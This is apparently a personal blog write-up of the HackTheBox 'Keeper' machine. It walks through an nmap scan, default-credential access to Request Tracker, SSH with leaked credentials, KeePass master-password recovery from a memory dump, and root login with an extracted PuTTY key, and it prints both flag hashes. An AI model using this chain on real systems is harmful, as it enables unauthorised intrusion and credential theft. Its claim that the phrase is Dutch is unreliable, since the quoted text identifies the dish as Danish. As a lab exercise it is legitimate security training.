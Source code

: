 ```yaml
---
layout: post
title: Keeper - Easy - Linux
date: 12-08-2023
categories: [CTF - HackTheBox]
tag: [Request Tracker, Dump File, KeePass, Putty Key, SSH]
---
```


# Nmap scan
```
# Nmap 7.93 scan initiated Sat Aug 12 20:03:13 2023 as: nmap -sC -sV -p- -oA nmap/keeper-allports -v 10.129.135.44
Nmap scan report for 10.129.135.44
Host is up (0.030s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)
|_  256 1ae972be8bb105d5effedd80d8efc066 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 12 20:03:37 2023 -- 1 IP address (1 host up) scanned in 24.70 seconds
```

# Inspecting port 80 - http://tickets.keeper.htb/rt/
nginx is hosting an application called Request Tracker 4.4.4. Default credentials allowed access to the admin account.

![e9cdb1b34e365d964d5f79976ce8c03d.png](/assets/img/e9cdb1b34e365d964d5f79976ce8c03d.png)

# Discovering user credentials
User credentials discovered in the users profile.

![3f887204704d923cc6f79a9b001656c9.png](/assets/img/3f887204704d923cc6f79a9b001656c9.png)

# SSH - lnorgaard
User credentials allowed SSH access.

```
┌─[✗]─[parrot@parrot]─[~/hackthebox/keeper]
└──╼ $ssh lnorgaard@keeper.htb
lnorgaard@keeper.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ cat user.txt
30ece4a7c2139299d406f52d04485f5c
lnorgaard@keeper:~$ 
```

# Inspecting RT30000.zip
Folder contains a dump file and a KeePass vault. 

```
lnorgaard@keeper:~$ ls -la
total 85380
drwxr-xr-x 4 lnorgaard lnorgaard     4096 Jul 25 20:00 .
drwxr-xr-x 3 root      root          4096 May 24 16:09 ..
lrwxrwxrwx 1 root      root             9 May 24 15:55 .bash_history -> /dev/null
-rw-r--r-- 1 lnorgaard lnorgaard      220 May 23 14:43 .bash_logout
-rw-r--r-- 1 lnorgaard lnorgaard     3771 May 23 14:43 .bashrc
drwx------ 2 lnorgaard lnorgaard     4096 May 24 16:09 .cache
-rw------- 1 lnorgaard lnorgaard      807 May 23 14:43 .profile
-rw-r--r-- 1 root      root      87391651 Aug 13 21:34 RT30000.zip
drwx------ 2 lnorgaard lnorgaard     4096 Jul 24 10:25 .ssh
-rw-r----- 1 root      lnorgaard       33 Aug 13 21:29 user.txt
-rw-r--r-- 1 root      root            39 Jul 20 19:03 .vimrc
lnorgaard@keeper:~$ 
```

```
┌─[parrot@parrot]─[~/hackthebox/keeper/zipcontents]
└──╼ $ls -la
total 332808
drwxr-xr-x 1 parrot parrot        88 Aug 13 20:35 .
drwxr-xr-x 1 parrot parrot       126 Aug 13 20:35 ..
-rwxr-x--- 1 parrot parrot 253395188 May 24 11:51 KeePassDumpFull.dmp
-rwxr-x--- 1 parrot parrot      3630 May 24 11:51 passcodes.kdbx
```

# Extracting KeePass master password
Source: https://github.com/CMEPW/keepass-dump-masterkey

```
┌─[parrot@parrot]─[~/hackthebox/keeper]
└──╼ $python3 dump.py zipcontents/KeePassDumpFull.dmp 
2023-08-13 20:36:16,740 [.] [main] Opened zipcontents/KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

# Password Analysis
Using google translate on the complete word `med` suggests the word is Dutch. To expand on that the missing letter in `fl●de` is probably a vowel. Googling `med flode` returns the following as the top result.

`Rødgrød med fløde, red berry pudding with cream, is the hallmark dessert of Denmark. A simple yet delicious dessert, this dish is made with four ingredients—berries, water, sugar, and potato starch or cornstarch—then topped with heavy cream. Use tart berries like red currants if you can find them.`

This seems to fit the pattern if possible passwords. The password should either be `Rødgrød med fløde` or `rødgrød med fløde`.

# Accessing KeePass vault
The password was correct and opened the vault exposing a password and a Putty SSH key.

![da312e074a621f842760f6536e049026.png](/assets/img/da312e074a621f842760f6536e049026.png)

# Converting Putty key to OpenSSH
`puttygen.exe > Import Key > Export OpenSSH key`

# Logging in as root
`ssh -i root.key root@keeper.htb`

```
┌─[parrot@parrot]─[~/hackthebox/keeper]
└──╼ $ssh -i root.key root@keeper.htb
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# 
root@keeper:~# cat /root/root.txt
823f37327dcc60f7c3cf05fc49d8da67
root@keeper:~# 
```

